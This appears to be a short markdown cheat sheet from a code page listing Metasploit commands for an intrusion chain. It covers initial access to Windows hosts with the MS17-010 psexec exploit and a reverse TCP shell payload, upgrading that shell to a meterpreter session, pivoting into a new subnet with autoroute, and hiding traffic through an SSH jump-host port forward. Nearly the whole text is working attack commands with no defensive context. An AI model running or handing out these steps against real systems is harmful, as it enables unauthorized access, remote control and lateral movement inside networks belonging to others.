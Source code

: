 ## Initial access

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/shell_reverse_tcp
set LPORT, LHOST, RPORT, RHOST
run
```

## Escalate to the meterpreter session:

```
sessions -l
use post/multi/manage/shell_to_meterpreter
set SESSION 1 
set LPORT 4444
run
sessions -i 2
```

## Pivoting to new subnet

```
use post/multi/manage/autoroute
```
## Opsec ssh jumphost

ssh -N -L 3000:localhost:3000 ubuntu@IPADDR
